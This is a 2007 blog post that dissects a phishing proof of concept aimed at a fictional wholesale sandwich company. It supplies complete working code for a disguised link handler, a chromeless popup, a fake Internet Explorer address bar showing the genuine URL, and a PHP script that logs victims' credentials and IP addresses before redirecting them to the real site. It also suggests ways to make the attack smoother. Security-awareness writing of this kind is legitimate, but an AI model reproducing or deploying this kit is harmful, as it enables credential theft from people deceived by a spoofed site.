 ```yaml
---
title: The anatomy of a phishing attack - advanced technique
date: 2007-07-12
tags:
- security
---
```

So many phishing attempts lately are just purely pathetic - easy to guess and figure out, mis spelling and grammar issues and just poorly fashioned websites.  Although these will work on the novice web surfer, can a clever criminal actually create a phishing site/scenario that can trap the experienced members in your IT department?  

<!--more-->

In this article we're going to take apart a phishing proof of concept attempt I created at ("the triangle") (for privacy sake, however, I'm going to use another fake company as the example) which fooled (or at least surprised a good portion of the IT staff I showed it too).

I leaped ahead with my phishing example.  I didn't take the time to create a fake phishing e-mail to my target.  Instead, I just told them about the URL -- they knew they were on a proof of concept, so they were willing to visit my website.  Our main company is wholesale peanut butter and jelly sandwiches with a website at `wholesalepbj.com`.  My 'fake' URL that I provided the target with was from an e-mail from `sales@wholesalepbj.com` which told them about a new promotion we were running.  It told them to go to `diamondquality-wholesalepbj.com` for our "Diamond Quality" sale.  All they had to do was log in and get the discount.

I visited `wholesalepbj.com` and collected some key images such as the logo and a few stock photos.  I also noted their font styles and colors and their marketing type of wording.  `diamondquality-wholesalepbj.com`, on my evil server, created one marketing page talking about this amazing, yet believable sale we were running.  I then had a link that said "Click this link to go to our homepage and claim your sale promotion".  This is where the 'evil' started.

This link contained this code:

```html
<em>You are almost there!</em>  
Just click 
<a href="http://www.wholesalepbj.com" onclick="return openPBJ()">this link</a>
```

Just in case our security professional took a quick look at the code, I wanted to make sure it at least looked 'ok'... hence the name seems "innocent" enough.

This is the javascript code:

```javascript
function openPBJ() {
  window.open("redirectToPBJ.html", "PBJWindow",
              "status=0,toolbar=0,location=0,left=1,top=1,height=" 
              + screen.height + ",width=1010"
             );
  return false;
}
```

Now those clever fellows of us are starting to see where I'm going with this.  First off, we have a link that is pointing to the real website but has a javascript handler.  Our function returns `false` so we never go to the URL.  Interesting to note, in both FF2 and IE6/7, when you right click on the link and choose properties (or mouse over for that matter), it shows its source as the real website with no mention about the javascript obstructing the URL).  Finally, in this bit of code, we see a lot of 'naming' that we're using to hopefully throw off the user.  We 'redirect' to `pbj`, we name it `pbjwindow`, etc.  You'll notice the only suspect thing is `location=0` in our window popup.  On most browsers, this is going to allow us to open this window without an address bar.

At this point, I had thought about being done here... but I know that people are training themselves to look for the URL in the address bar now.  If I launched a popup window with no address bar, people might become suspicious.  So I needed to have an address bar... - or at least something that looks like one.

**`redirectToPBJ.html`**
```html
<html>
  <title>http://www.wholesalepbj.com</title>
  <frameset rows="27,*" border=0 frameborder=0>
    <frame src="top.html" scrolling='no' frameborder='0' noresize></frame>
    <frame src="www.wholesalepbj.com.html" name='pbj' scrolling='yes' frameborder='0' noresize></frame>
  </frameset>
</html>
```

If the user actually looked at the code, this page becomes more suspect.  But note, still using our misdirection, we do have the source pointing to `www.wholesalepbj.com.html`.  You may know that that still an html file, but a quick observer might miss that.  Ok, so this content was loaded into the popup window - even the title bar shows our website address.  We're done creating our frames (with no borders and resizing options).

Lets check out the **`top.html`** file.  This is responsible for our address bar.  I made an assumption that the user would be using Internet Explorer.  I made this proof of concept when Internet Explorer 6 was still the default, so the interface may look a little bit different now.  Also, if the user had a different version of windows or a non-classic theme, the address bar may not look like their standard address bar.  But, this is besides the point: our proof of concept was against Internet Explorer 6 with no theme.  

**`top.html`**
```html
<style type="text/css">
  body {
    margin: 0px;
    padding: 0px;
    background-color: #d4d0c8;
    font-family: tahoma;
    font-size: 11px;
    border-top: 1px solid #ffffff;
    border-bottom: 1px solid #aaaaaa;
    vertical-align: middle;
  }

  #address {
    float: left;
    height: 35px;
    padding: 3px;
  }

  #addressbox {
    width: 910px;
  }

  #gobutton {
    background-image: url('go.jpg');
    background-repeat: no-repeat;
    border: 0px;
    padding-left: 17px;
  }
  </style>
  <script type="text/javascript">
    function gotoAddress()
    {
      var v= document.getElementById('addressbox').value;
      if (v.substr(0, 7) != 'http://') {
        v = 'http://' + v;
      }
      top.opener.location.href=v;
      parent.window.close();
      return false;
    }
  </script>

  <p id="address">Address</p>
  <p id="box">
  <form name="address" action="/" onsubmit="return gotoAddress()">
    <input id="addressbox" value="http://www.wholesalepbj.com?promo=TRUE" type="text" />
    <input value="Go" id="gobutton" type="submit" />
  </form>
</p>
```

This is an interesting piece of code.  First off, lets start with what we know.  We know we need and address bar that they're used to seeing - but it has to have the website they expect to be visiting's URL in itself.  It also should function like a normal address bar (It shouldn't just be a picture, it should allow for users to type in it and possibly navigate away from our site.).

The first CSS styles the address bar like our classic theme would.  The **`go.jpg`** is actually an image of the go button we normally see: ![go.jpg](/uploads/2007/go.jpg)

The address bar itself is an input field, and its populated with our proper website URL.  It even has a note in their about this being a promotion, so the user may think that they are logging in to get their sale and discount.  On submit ('enter'), we return the value from the javascript function.  As we had learned earlier, we can always stop something on our website by returning false - so the form field never is submitted because our javascript returns false.

Our javascript reads in the value from the address bar.  If the user did not enter an `http://`, it adds it to the beginning of whatever they entered for them.  Then, the javascript redirects the parent to the URL they entered and closes itself.  Obviously this will look a little strange to the user - why did they type in the URL and the window closes, but we're fine with this for two reasons: 1) most users probably will just think it was a weird quirk with the browser and 2) if we're leaving our phished site, we need to provide a real functional address bar.

So we've solved our address bar issue, lets move on to spoofing the real website.

I simply went to `wholesalepbj.com` in my browser and did a file -> save as - and saved the entire web page and archive named `www.wholesalepbj.com.html`.  I uploaded this to my evil server as well.  It had to be named this so we could support the `src` attribute in our framed document **`top.html`**'s source.

Next, we edited the content of my saved copy of the website.  I changed the login form's URL to point to a page on my evil website which will log their username and password.  If the user clicks any other link besides logging in, they will bust us - they'll go to the real website... but the 'address bar' will stay the same.  (In hindsight, I should have modified the original website's code from wholesalepbj.com that I saved to make it easier to login and encourage them to get their promotion...)  These changes were simple and easy.  (Also, keep in mind, if the user looked at the source of our document, they're gonna see our frame source, not our saved version of the website's source - which could give it away.  They would have to choose a different option to actually see the real source of the saved website).

Lets take a look at what happens when the user logs in.  First off, I changed the input form field to submit to my server's version of login.php.  It contains this code:

```html
<?php
//log all of the information.
$f = fopen('test.txt', 'a');
fwrite(
  $f, 
  "----------------------------\nip: " 
    . $_SERVER['REMOTE_ADDR'] . "n" 
    . print_r($_POST, TRUE)
);
fclose($f);
?>
<script type="text/javascript">
  parent.window.location.href="http://www.wholesalepbj.com/login.php";
</script>
```

First off, the script takes care of logging the user credentials (obviously, in production, I'd be writing this to a database... but this shows a good enough example right now.  Then the page loads, and executes javascript right away, which sets and focuses the parent window's location (parent being this popup - remember, we're in frames). to the real website's login page - but not passing any credentials.  Then the user is on the real website and the damage has been done - we have their credentials.

This was just a 'quick and dirty' proof of concept I did.  There are far more ways to make it more complex, more accurate and more streamlined... (think using hidden iframes to actually login the user to the website, then redirect them to the website after a short break...).  But the proof of concept is successful - there are some phishing situations that would work against even the best and brightest of us.

I should also state that I do not endorse creating phishing websites - its both illegal and unethical.  I will not help anyone create one - I will answer technical questions about my proof of concept's implementation, however.